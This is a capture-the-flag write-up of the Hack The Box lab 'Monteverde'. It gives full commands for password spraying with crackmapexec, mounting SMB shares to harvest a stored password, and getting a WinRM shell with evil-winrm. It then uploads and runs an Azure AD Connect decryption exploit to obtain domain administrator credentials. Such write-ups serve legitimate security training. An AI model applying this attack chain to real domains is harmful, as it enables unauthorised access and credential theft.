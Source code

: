 ```yaml
---
title: "[Writeup] Hack The Box: Monteverde"
date: 2020-05-05T23:28:11+07:00
categories: [writeup]
tags: [writeup, walkthrough, htb, hackthebox]
---
```


Monteverde is a Medium difficulty Windows box. You don't need many fancy techniques to clear this box, as the process is quite clear and straightforward. The important point for this box is enumeration, as the saying goes, *"Enumeration is the key"*.

{{< img src="/images/htb_monteverde/infocard.png">}}

<!--more-->

**OS:** Windows  
**Difficulty:** Medium  
**Points:** 30  
**Release:** 11 Jan 2020  
**IP:** 10.10.10.172  
**Box Creator:** egre55  
**Date Cleared:** 23 Apr 2020

## Information Gathering

Starting with `nmap` as usual.

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-05-05 13:30:53Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=5/5%Time=5EB1759D%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

I used `enum4linux` and found a list of users on the target.

{{< img src="/images/htb_monteverde/enum4linux.png">}}

## Gaining Access

I put the usernames found into a text file then performed a simple password spraying with `crackmapexec`, and found that the credential `SABatchJobs:SABatchJobs` is valid.

`crackmapexec smb 10.10.10.172 -u ./userlist  -p ./userlist`

{{< img src="/images/htb_monteverde/SABatchJobs.png">}}

The user `SABatchJobs` could be used to list the SMB shares.

`smbclient -L \\\\10.10.10.172 -U 'MEGABANK\SABatchJobs'`

{{< img src="/images/htb_monteverde/shares.png">}}

The `users$` share is accessible with `SABatchJobs`, so I mounted the share to my file system for the ease of searching.

`mkdir users$`
`mount -t cifs //10.10.10.172/users$ ./mount -o username=SABatchJobs,password=SABatchJobs,domain=MEGABANK`

{{< img src="/images/htb_monteverde/share_users.png">}}

I found a file named `mhope/azure.xml` with password in users$ share

{{< img src="/images/htb_monteverde/share_users_mhope.png">}}

Using `crackmapexec` to test the new password found with the user list we got, I found that `mhope:4n0therD4y@n0th3r$` is valid.

`crackmapexec smb 10.10.10.172 -u ./userlist  -p '4n0therD4y@n0th3r$'`

{{< img src="/images/htb_monteverde/crackmapexec_mhope.png">}}

From the `nmap` result in the beginning, we can see that WinRM port `5985` is open, so I used [`evil-winrm`](https://github.com/Hackplayers/evil-winrm)to connect to the target and got the user shell.

`evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'`

{{< img src="/images/htb_monteverde/shell_mhope.png">}}

## Privilege Escalation

Using `whoami /all`, I found an interesting group `Azure Admins`.

{{< img src="/images/htb_monteverde/whoami.png">}}

Looking in the `Program Files` directory, I found that Microsoft Azure AD Connect is installed on the machine.

{{< img src="/images/htb_monteverde/programfiles.png">}}

With a brief Google search, I found that AD Connect has a privilege escalation vulnerability (<https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/>).

{{< img src="/images/htb_monteverde/adconnectvuln.png">}}

I uploaded the precompiled exploit binary from <https://github.com/VbScrub/AdSyncDecrypt/releases> to the target machine using `wget` and `SimpleHTTPServer`.

{{< img src="/images/htb_monteverde/upload.png">}}

I went to Microsoft Azure AD Sync directory and run the exploit to get administrator credentials.

`cd "C:\Program Files\Microsoft Azure AD Sync\Bin"`
`C:\Program Files\Microsoft Azure AD Sync\Bin> C:\Users\mhope\AdDecrypt.exe -FullSQL`

{{< img src="/images/htb_monteverde/azureadexploit.png">}}

With the credentials found, I could log in as the Administrator.

`evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'`

{{< img src="/images/htb_monteverde/admin_shell.png">}}